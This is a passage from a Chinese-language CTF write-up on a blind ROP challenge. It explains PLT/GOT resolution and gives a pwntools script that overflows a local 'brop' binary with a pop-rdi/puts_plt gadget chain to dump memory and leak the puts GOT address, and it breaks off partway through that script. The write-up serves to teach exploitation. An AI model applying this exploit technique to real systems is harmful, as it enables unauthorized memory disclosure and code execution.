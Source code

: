 ```python
                       |             a             | a字符串占位填满栈空间
     	   our input-->+---------------------------+

```

## 5、泄露puts_got地址
在得到puts_plt地址后，接下来就需要将puts_got地址泄露出来，得到puts_got地址之后就可以利用LibcSearcher查找对应的libc版本，再根据版本找到libc中的system函数和/bin/sh

在泄露之前需要知道一下Linux中plt表和got表的关系，我们就拿puts函数举例

```python
																	+--------------+
																	|    GOT表     |
+---------------------+				+--------------+	找到真实地址  +--------------+
|  PLT表  | jmp got表  | --------->  |puts的真实地址 | -------------> |    puts函数   |
+---------------------+				+--------------+			    +--------------+
跳转到got表中存放puts						                           |			  |
函数真实地址的地址								                      |			     |
																	+--------------+

```

我们可以根据上图我们模拟一下call puts的过程，在执行call puts之后程序首先会在PLT表中寻找puts_plt的地址，那么在puts_plt地址中存放的是GOT表中存放puts函数真实地址的地址（可能有点套娃，慢慢想），接下来会在GOT表中找到存放puts真实地址的地址，接下来打开盒子根据真实找到了puts函数

在ret2csu中我们使用的是LibcSearcher查找的函数got表地址，那么由于这道题开启了ASLR，所以不能使用工具去获取地址，那么我们手动的去找，找的就是在puts_plt地址中存放的jmp指令后接的地址。如果觉得不懂，看一下上面的图，jmp指令后面接的就是puts_got的地址。由于不能实用工具，我们只能手动的讲整个PLT部分都dump出来。dump出来的文件重新设置基地址0x400000，再根据前面得到的puts_plt地址找到对应位置，查看该地址内的汇编指令

```python
# coding=utf-8
from pwn import *
context.log_level = "debug"
'''
dump the bin file
'''
def leak(length,rdi_ret,puts_plt,leak_addr,stop_gadget):
    p = process('./brop')
    payload = 'a'*length + p64(rdi_ret) + p64(leak_addr) + p64(puts_plt) + p64(stop_gadget)
    #72个a填满栈空间至ret位置，后接pop rdi；ret gadget，循环递增的地址被pop进rdi寄存器，
    #接下来将puts_plt地址防止在gadget ret位置进行调用打印循环递增的地址，
    #最后加上stop gadget防止崩溃
    p.recvuntil('password?\n')
    p.sendline(payload)
    try:
        data = p.recv(timeout = 0.1)
        p.close()
        try:
            data = data[:data.index("\nWelCome")]#将接收的\nWelCome之前的字符串交给data变量
        except Exception:
            data = data
        if data =="":#如果data被赋值之后为空，那么就说明已经完成整个dump过程，添加\x00截断
            data = '\x00'
        return data
    except Exception:
        p.close()
        return None   

length = 72
stop_gadget = 0x4005d0
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
puts_plt = 0x400565
addr = 0x400000
```